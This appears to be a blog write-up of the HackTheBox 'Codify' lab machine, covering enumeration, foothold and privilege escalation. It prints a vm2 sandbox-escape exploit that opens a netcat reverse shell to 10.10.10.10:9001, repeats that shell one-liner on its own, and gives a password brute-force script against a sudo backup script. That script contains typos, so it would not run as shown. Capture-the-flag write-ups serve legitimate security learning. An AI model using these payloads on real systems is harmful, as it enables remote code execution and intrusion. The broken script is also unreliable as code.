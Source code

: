 ```yaml
---
layout: post
title: "Codify e2e4dadbc8fe4382b136fde11892ad8b"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Codify

HackTheBox: Medium

<aside>
💡 Codify is a compiler service it runs on VM2 we just find its vulnerabilitie having code we execute

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_1.png' | relative_url }})

FOOTHOLD

```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f);
}
`
console.log(vm.run(code));
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

## 2: User flag

Route

```bash
/var/www/contact 
```

There is a db creds

We use john for get user flag (joshua)

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_2.png' | relative_url }})

## 3: Priv esc

> There is a mistake (bad practice) with mysql. Sometimes bash uses the admin password as a “args” and not as a string so we can use a script and with the help of * we can make:
> 

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_4.png' | relative_url }})

```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

klj12h3jhaskjh12kjh3

Machine pwned!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
